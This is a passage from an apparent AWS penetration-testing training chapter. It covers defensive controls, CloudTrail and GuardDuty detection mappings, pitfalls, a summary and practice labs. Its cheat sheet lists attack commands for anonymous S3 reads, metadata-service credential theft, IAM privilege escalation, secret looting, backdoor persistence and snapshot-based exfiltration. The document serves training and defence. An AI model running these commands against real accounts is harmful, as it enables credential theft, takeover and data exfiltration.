- Remove `iam:CreatePolicyVersion`, `iam:AttachUserPolicy`, `iam:PassRole` (or scope `PassRole` to specific, non-powerful roles), and wildcard `Resource`/`Action` from non-admin policies. **Blue-team usage:** run `Cloudsplaining` on `get-account-authorization-details` output and `PMapper query 'preset privesc *'` on every account — treat any path to admin from a non-admin principal as a P1 finding to fix.
- Use **permission boundaries** and **SCPs** as hard caps so even a granted over-permission can't be used (e.g. an SCP denying `iam:CreatePolicyVersion` org-wide except for a break-glass role).

**IMDSv2 + hop-limit 1.** Enforce account-wide to kill the Part 5 SSRF chain:

```bash
# require IMDSv2 and limit hops so containers/proxies can't relay to metadata
$ aws ec2 modify-instance-metadata-options --instance-id i-0abc \
    --http-tokens required --http-put-response-hop-limit 1
```

**Block Public Access at the account level** to close the Part 4 S3 exposure class regardless of any bucket policy/ACL:

```bash
$ aws s3control put-public-access-block --account-id 123456789012 \
    --public-access-block-configuration \
    BlockPublicAcls=true,IgnorePublicAcls=true,BlockPublicPolicy=true,RestrictPublicBuckets=true
```

**Logging, centralised and isolated.** An org-wide CloudTrail with log-file validation, shipped to a separate logging account the workload can't touch, plus **GuardDuty** enabled everywhere. **IR use case:** alert on the exact events attackers generate:

```text
CreatePolicyVersion / SetDefaultPolicyVersion / AttachUserPolicy   -> privesc (Part 6)
CreateAccessKey / CreateUser / UpdateAssumeRolePolicy              -> persistence (Part 7)
PutBucketPolicy / PutBucketAcl / DeletePublicAccessBlock           -> data exposure (Part 4)
StopLogging / DeleteTrail                                          -> defense evasion
ModifySnapshotAttribute / ModifyDBSnapshotAttribute (add acct)     -> exfil (Part 7)
```

GuardDuty's managed findings (`InstanceCredentialExfiltration`, `CloudTrailLoggingDisabled`, `AnomalousBehavior`) catch many of these with zero rule-writing. **Red-team usage:** in the report, note which of your actions *would* have been caught and which weren't — the assessment's value is as much about detection gaps as access.

**Key GuardDuty findings mapped to this chapter's attacks:**

| GuardDuty finding | Catches (chapter part) |
|---|---|
| `UnauthorizedAccess:IAMUser/InstanceCredentialExfiltration` | IMDS creds used off-instance (Part 5) |
| `Stealth:IAMUser/CloudTrailLoggingDisabled` | attacker disabling logs |
| `PrivilegeEscalation:IAMUser/AdministrativePermissions` | privesc attempts (Part 6) |
| `Discovery:S3/AnomalousBehavior` / `Policy:S3/BucketAnonymousAccessGranted` | S3 recon / public-bucket creation (Part 4) |
| `CredentialAccess:IAMUser/AnomalousBehavior` | secrets/enumeration bursts (Part 3/5c) |
| `Exfiltration:S3/AnomalousBehavior` | bulk object download (Part 7) |

Enabling GuardDuty in every region + account gets these with no rule authoring — the highest ROI defensive step after least-privilege IAM and IMDSv2.

**Continuous config auditing.** Schedule **Prowler**/**ScoutSuite** against every account to catch drift from the CIS Benchmark — public buckets, IMDSv1, root keys, missing MFA, over-permissive policies — before an attacker finds them:

```bash
$ prowler aws --profile audit -M html csv          # CIS + hundreds of checks
$ scout aws --profile audit                        # ScoutSuite HTML report
```

**Kill static keys.** Prefer SSO + short-lived role sessions for humans and IMDSv2/instance roles (no key files) for workloads; scan repos/images with **gitleaks**/**TruffleHog** in CI and auto-quarantine leaked `AKIA` keys. This directly counters the Part 9 "leaked key" initial-access vector.

---

## Part 11: Common Pitfalls

- **Being loud during enumeration.** `enumerate-iam` and Pacu fire thousands of logged calls; on a stealth engagement, prefer targeted `get-caller-identity` + `get-account-authorization-details` + offline analysis over brute enumeration.
- **Forgetting the session token.** Temporary (`ASIA`) creds need `AWS_SESSION_TOKEN` too; omit it and every call fails with `InvalidClientTokenId`.
- **Region blindness.** Many resources are regional; a single-region `describe-instances` misses the fleet. Sweep all regions.
- **Assuming IMDSv1.** Modern accounts enforce IMDSv2; use the token-`PUT` flow, and remember SSRF often can't do the `PUT` (that's the point of v2).
- **PassRole without the second permission.** `iam:PassRole` alone does nothing; you need a consumer (`ec2:RunInstances`, `lambda:CreateFunction`) to *use* the passed role. Check for the pair.
- **Testing privesc that mutates prod.** `create-policy-version --set-as-default`, `attach-user-policy`, `run-instances` all change state and cost money; use dedicated lab accounts and clean up (`cloudgoat destroy`).
- **Trusting a leaked key is dead.** Always validate with `get-caller-identity`; keys linger in Git history and are often still live.
- **Ignoring the trust policy in AssumeRole.** You can only assume a role whose trust policy names your principal; enumerate trust policies, don't just try every role blindly.
- **Skipping cleanup and authorisation.** Cloud actions are powerful and billed; never test outside an authorised, isolated account, and tear down labs.
- **Missing secrets in non-obvious places.** Credentials hide in EC2 user-data, Lambda env vars, SSM SecureStrings, and ECS task defs — not just Secrets Manager. Check them all (Part 5c).
- **Reading a SecureString without `--with-decryption`.** You'll get ciphertext; add the flag (and note it needs `kms:Decrypt`). If decrypt is denied, the secret is protected — that's the CMK boundary working.
- **Overlooking public snapshots.** `describe-snapshots --restorable-by-user-ids all` reveals disk images anyone can mount — a data breach hiding in plain sight.

### Bug-bounty relevance (woven)

AWS assets increasingly appear in bug-bounty scope. The highest-value, well-paid findings mirror this chapter: an **SSRF that reaches IMDS** (demonstrate you can read the role and list a bucket — don't exfil real customer data), a **public/writable S3 bucket** with sensitive data, a **leaked `AKIA` key** validated with `get-caller-identity`, and an **IAM privesc path** shown via `simulate-principal-policy` (prove the path without executing destructive escalation). In every case, stay strictly within scope and AWS's testing policy, prefer read-only proof, and report with the CloudTrail events a defender would see — triagers reward demonstrated impact plus a clear remediation.

---

## Part 12: Final Revision / Summary

- **AWS CLI + credentials:** the CLI signs API calls; creds resolve from env vars → `~/.aws` → IMDS. `AKIA` = long-lived static (avoid), `ASIA` = temporary + session token (from STS/IMDS).
- **First moves:** `aws sts get-caller-identity` (who/account, always works, validates a key), then discover permissions via IAM read, `enumerate-iam` (noisy brute), or `simulate-principal-policy`.
- **Enumerate read-only first:** `get-account-authorization-details` is the jackpot; sweep all regions; enumerate IAM, S3, EC2, secrets.
- **S3:** access = IAM ⊕ bucket policy ⊕ ACL, with **Block Public Access** overriding to prevent public data. Anonymous `--no-sign-request` enumerates/exfils; states are private/list/read/write.
- **IMDS chain:** shell or **SSRF** → `169.254.169.254` → role creds → `export AWS_*` → operate as the role. Enforce **IMDSv2 + hop-limit 1** to break it; GuardDuty flags cred use from foreign IPs.
- **IAM privesc (legit API abuse):** `AttachUserPolicy`, `CreatePolicyVersion`, `PassRole`+`RunInstances`/`CreateFunction`, `UpdateFunctionCode`, `CreateAccessKey`. It's a **graph** — map with `Cloudsplaining`/`PMapper`.
- **Lateral/persist:** `AssumeRole` (per trust policy), cross-account trust, new keys/users, backdoor trust policies, Lambda/EventBridge triggers; exfil via snapshot sharing.
- **Pacu** automates enumerate→privesc→persist→loot.
- **Defense:** least-privilege IAM (+ boundaries/SCPs), IMDSv2, account BPA, centralised+isolated CloudTrail, GuardDuty, continuous Prowler/ScoutSuite, kill static keys with SSO + secret scanning.

- **STS** mints temporary creds via `AssumeRole` (gated by the role's trust policy); temp creds expire and every assume is logged — the mechanism behind "short-lived limits blast radius."
- **Secrets** hide in Secrets Manager, SSM (`--with-decryption`), EC2 user-data, Lambda env vars, and ECS task defs — harvest them for lateral movement beyond AWS.
- **Public EBS snapshots** (`--restorable-by-user-ids all`) are a silent full-disk data breach; audit and deny them.

Memory hook: **"get-caller-identity first, enumerate read-only, steal the role from metadata, and escalate with the one IAM permission they forgot to remove."**

---

## Part 13: Cheat Sheet / Quick Reference

```text
IDENTITY
  aws sts get-caller-identity            who am I / account / arn (always works)
  AKIA = static (avoid) ; ASIA = temp (needs AWS_SESSION_TOKEN)
  export AWS_ACCESS_KEY_ID / AWS_SECRET_ACCESS_KEY / AWS_SESSION_TOKEN

ENUMERATE (read-only first)
  aws iam get-account-authorization-details   # jackpot
  python enumerate-iam.py --access-key .. --secret-key ..   # noisy brute
  aws iam simulate-principal-policy --action-names iam:AttachUserPolicy ...
  all regions: for r in $(aws ec2 describe-regions ... ); do ...; done

S3
  aws s3 ls s3://<b> --no-sign-request         # anon list
  aws s3 cp s3://<b>/<k> . --no-sign-request   # anon read
  aws s3api get-bucket-acl/get-bucket-policy/get-public-access-block --bucket <b>
  states: private / list / read / write(worst) ; BPA overrides to private

IMDS
  v1: curl .../latest/meta-data/iam/security-credentials/<role>
  v2: TOKEN=$(curl -X PUT .../latest/api/token -H "...token-ttl-seconds:21600")
      curl -H "X-aws-ec2-metadata-token:$TOKEN" .../security-credentials/<role>
  bonus: .../latest/user-data  (secrets in deploy scripts)

PRIVESC (need the permission)
  iam:AttachUserPolicy      -> attach AdministratorAccess
  iam:CreatePolicyVersion   -> new default version *:*
  iam:PassRole + ec2:RunInstances / lambda:CreateFunction -> run as powerful role
  lambda:UpdateFunctionCode -> hijack powerful function
  map: cloudsplaining scan --file iam.json ; pmapper query 'preset privesc *'

SECRETS LOOTING
  aws secretsmanager get-secret-value --secret-id <n>
  aws ssm get-parameter --name <n> --with-decryption
  aws ec2 describe-instance-attribute --attribute userData | base64 -d
  aws lambda get-function-configuration --query Environment.Variables

EC2/SNAPSHOT RECON
  aws ec2 describe-instances (roles/IPs/SGs) ; describe-security-groups (0.0.0.0/0)
  aws ec2 describe-snapshots --restorable-by-user-ids all   # public disks!

LATERAL / PERSIST
  aws sts assume-role --role-arn .. (per trust policy) ; cross-account trust
  aws iam create-access-key/create-user ; update-assume-role-policy (backdoor)
  exfil: ec2 modify-snapshot-attribute / rds modify-db-snapshot-attribute (add acct)

DEFENSE
  least-priv IAM + boundaries/SCP ; enforce IMDSv2 hop-limit 1 ; account BPA
  org CloudTrail (isolated) + GuardDuty ; prowler/scoutsuite continuous ; kill AKIA keys
  alert: CreatePolicyVersion/AttachUserPolicy/CreateAccessKey/StopLogging/PutBucketPolicy
```

---

## Part 14: Practice Labs & Resources

- **flAWS.cloud & flAWS2.cloud:** the definitive beginner AWS labs — walk IMDS credential theft, S3 misconfig, and IAM privesc in the browser with zero setup. Do both before anything else.
- **CloudGoat (Rhino Security Labs):** deploy `iam_privesc_by_rollback`, `iam_privesc_by_attachment`, `ec2_ssrf`, `cloud_breach_s3`, `lambda_privesc` and attack each — the hands-on companion to Parts 5, 6, and 9.
- **Pacu + Rhino "AWS IAM Privilege Escalation" research:** the source of the Part 6 privesc matrix; read it, then reproduce each path in a lab.
- **PMapper & Cloudsplaining docs:** learn to *find* privesc paths defensively; run them on your own account.
- **Prowler & ScoutSuite:** audit a test account against CIS; read the report and fix every high finding — the defender's view of this chapter.
- **AWS penetration testing policy + Well-Architected Security Pillar:** know what's permitted without pre-approval and what "good" looks like.
- **TryHackMe/HackTheBox AWS rooms & hackingthe.cloud:** curated technique references for IMDS, privesc, and enumeration.
- **AWS CLI `--dry-run` and IAM Policy Simulator (console):** practise reasoning about permissions without changing state — the defender's and careful-attacker's friend.
- **Build-your-own:** in a dedicated free-tier account, launch an EC2 with an over-permissive role, find its IMDS creds, and attempt a `PassRole` privesc against yourself — then turn on IMDSv2, BPA, and GuardDuty and watch the same actions fail or alert.

Practice question set:

1. You're given an access key starting with `ASIA` but every command returns `InvalidClientTokenId`. What did you forget, and how do you fix it?
2. Walk through, with commands, how you'd determine what a freshly-stolen credential can do *without* IAM read permissions, and note the detection trade-off.
3. A bucket returns objects to `aws s3 ls --no-sign-request`. Classify the exposure, show how you'd confirm whether it's also anonymously writable, and name the one account setting that closes the class.
4. You have `iam:PassRole` and `lambda:CreateFunction`. Explain step by step how this becomes admin, and why `PassRole` alone would not.
5. Map the Part 9 lab (leaked key → admin) onto MITRE ATT&CK for Cloud tactics, and give the CloudTrail event and GuardDuty/defensive control that would detect or prevent each step.
6. You've stolen a role's temp creds via SSRF. List four distinct places you'd look for secrets that would enable lateral movement *beyond* AWS, with the command for each.
7. A role's trust policy has `"Principal": {"AWS": "*"}`. Explain the risk, how you'd discover and abuse it, and how you'd remediate it.
8. Explain why enabling GuardDuty is described as "the highest ROI defensive step after least-privilege IAM and IMDSv2," referencing at least three specific findings and the attacks they catch.

**Memory hooks (mnemonics):**

- **"AKIA lives forever, ASIA has a clock."** — static vs temporary credentials.
- **"get-caller-identity is the cloud `whoami` and always works."** — your first move.
- **"PassRole is useless without a consumer."** — privesc requires the pair.
- **"IMDSv2 makes SSRF do a PUT it can't do."** — why the fix works.
- **"Every step is a logged API call — so is yours."** — detection cuts both ways.

The next chapters continue the cloud track — cloud pentest tooling (Pacu, ScoutSuite, Prowler in depth), then Azure/Entra ID and GCP — but the AWS loop you learned here (enumerate → escalate → move → persist, all as logged API calls) is the template every provider follows. Master this loop on AWS and the Azure and GCP chapters become a matter of translating vocabulary — the attack shapes, and the defenses that counter them, stay the same.

Above all, remember the discipline that makes this work legitimate: explicit authorisation, a defined scope, AWS's testing policy, read-only proof where possible, and clean-up afterward. In the cloud a single API call can affect an entire organisation — so the professional's edge is not just knowing the loop, but running it carefully.
